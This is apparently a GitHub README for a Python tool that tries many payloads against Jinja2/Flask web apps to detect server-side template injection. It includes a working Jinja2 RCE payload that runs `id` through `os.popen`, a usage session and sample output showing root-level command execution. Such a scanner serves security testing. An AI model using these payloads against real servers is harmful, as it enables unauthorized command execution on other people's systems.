 # 🍹 Ice-Ice-Tea-Ay!

**Ice-Ice-Tea-Ay** is a command-line tool written in Python to perform payload-based brute-force checks for **Server-Side Template Injection (SSTI)** vulnerabilities on Jinja2/Flask-based web applications.

---

## How it Works?
It works by injecting multiple crafted payloads and analyzing server responses to detect signs of SSTI, number evaluation, or even Remote Code Execution (RCE).

---
## Requirements
- pycurl
- requests

---

## Features

- Checks for **SSTI via numerical evaluation** (e.g., `{{64*64}}`)
- Detects **Remote Code Execution (RCE)** payloads (e.g., `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`)
- Multiple payload types: Jinja2, Freemarker, Velocity, Flask, etc.
- Supports custom POST body injection with a placeholder (`&x`)
- Uses `pycurl` for fast and raw HTTP requests

---
## How to use
This is an example of use:
```bash
> python3 ice-ice-tea-ay.py

Ice-Ice-Tea-Ay!
A Brute-Force Tool to check SSTI vulnerability on Jinja2/Flask-based web servers.

Please put the URL target here: http://localhost:5000/login
Insert a header body (place '&x' inside the body): username=admin&password=&x
1. Number eval check 
2. Remote Code Execution (RCE) check 
3. Check all possible code 
Choose a number: 3
```
If the tools success find the payload, the output will look like this:
```bash
Found One!
Payload: {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
Response:

                <!doctype html>
                <h1 style="font-size:100px;" align="center">uid=0(root) gid=0(root) groups=0(root)     
</h1>
```
---
## Installation

```bash
git clone https://github.com/yourusername/ice-ice-tea-ay.git
cd ice-ice-tea-ay
pip install -r requirements.txt
```
